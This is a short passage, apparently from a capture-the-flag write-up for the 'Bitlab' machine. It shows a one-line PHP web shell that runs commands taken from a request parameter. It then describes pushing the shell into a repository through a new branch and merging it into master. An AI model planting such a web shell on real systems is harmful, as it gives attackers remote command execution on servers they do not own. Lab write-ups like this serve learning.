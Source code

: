 I created a PHP RCE oneliner.

    <?php system($_REQUEST['cmd']) ;?>

I tried to upload it to master branch directly but it didn't work.

![Bitlab/Untitled%206.png](/assets/images/Bitlab/Untitled%206.png)

So i tried to upload it to a new branch and merge it with master branch.
